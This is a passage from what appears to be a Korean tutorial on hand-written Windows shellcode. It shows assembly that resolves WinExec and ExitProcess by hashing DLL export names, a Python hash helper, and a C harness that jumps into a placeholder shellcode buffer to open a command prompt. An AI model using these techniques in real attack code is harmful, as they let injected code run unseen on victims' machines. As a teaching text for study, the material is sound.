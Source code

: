 ```python
   print "%-10s\t%-35s\t%-5s\t%-6s" % (hex(pe.OPTIONAL_HEADER.ImageBase + exp.address), exp.name, exp.ordinal, get_hash(exp.name))
```
> 위 스크립트를 실행하면 함수의 Hash값이 나온다.

이제 get_func_addr 함수를 살펴보자. 입력값은 함수의 Hash값이고, 목적은 함수의 주소를 구하는 것이다. 먼저, Export Name Table을 따라서 함수명을 하나씩 가져온 뒤, 함수명에 대한 Hash값을 하나씩 계산한다.

```asm
get_func_addr:
		// get name table index
    // 함수명 테이블 인덱스를 구함
 loop_ent:
		inc edx  // index++
		lodsd    // eax = *esi , esi += 4
		pushad
		add	ebx, eax  
		mov	esi, ebx  
		xor eax, eax  
		xor edi, edi  
 hash:
		lodsb    // eax = *esi, esi += 1   
		add edi, eax  // edi += char
		test al, al
		jnz hash
		mov [ebp+0x10], edi
		popad
		cmp [ebp+0x10], edi // cmp export name hash, 함수 Hash값 비교
		jne loop_ent		
		// get WinExec address
		movzx edx, word ptr [ecx+edx*2-2]	// Ordinal
		mov edi, [ebp+0x18]
		mov esi, [edi+0x1c]  	// Export Address Table
		mov edi, ebx
		add esi, edi		// Address Table
		add edi, [esi+edx*4]
		mov eax, edi
		// edi = 함수 주소 리턴
		ret
```
> ebx에 함수명이 저장되어 있고 함수명에 대한 Hash값을 계산하면 그 Hash값은 edi에 저장된다. 이 때 WinExec 함수인지 확인하는 것이다.

> 이 과정을 반복해서 서로 동일한 Hash값을 찾으면 루프에서 빠져나온다. 그리고, edx에 저장된 인덱스 값을 이용하여 Ordinal Table에서 EAT의 인덱스 값을 확인한다. 그러면 WinExec 함수의 EAT의 인덱스 값을 알 수 있으며 드디어 WinExec 함수의 Offset을 알 수 있다. 여기에 Base 주소를 더해서 실제 주소를 구하면 끝. ExitProcess 함수도 이와 동일한 과정을 거친다.

> 이제 인자값을 스택에 Push하고 각각 함수를 호출하면 된다. 결과적으로 cmd 프롬프트 창이 열린다. 쉘코드의 바이트 코드(Op Code)를 추출해서 실행해도 정상적으로 동작한다.

```
#include "stdafx.h"
#include "windows.h"

char shellcode[] = "쉘코드";

int _tmain(int argc, _TCHAR* argv[])
{
  int* shell = (int*)shellcode;
  __asm{
    jmp shell
  };
}
```
